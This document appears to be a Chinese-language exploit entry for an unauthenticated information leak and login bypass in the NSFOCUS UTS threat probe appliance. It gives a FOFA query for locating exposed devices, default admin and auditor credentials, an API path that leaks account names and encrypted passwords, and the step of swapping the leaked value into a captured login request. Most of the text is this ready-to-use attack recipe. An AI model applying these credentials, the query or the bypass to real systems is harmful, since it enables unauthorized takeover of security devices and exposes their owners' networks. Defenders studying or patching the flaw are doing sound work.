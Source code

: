 # 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

```
绿盟 UTS综合威胁探针
```

## FOFA

```
app="NSFOCUS-UTS综合威胁探针"
```

## 漏洞复现

默认口令

```
admin/Nsfocus@123
auditor/auditor
```

登陆页面

![image-20220525150142447](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251501583.png)

验证POC

```
/webapi/v1/system/accountmanage/account
```

![image-20220525150243440](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251502510.png)

这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251503644.png)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251503926.png)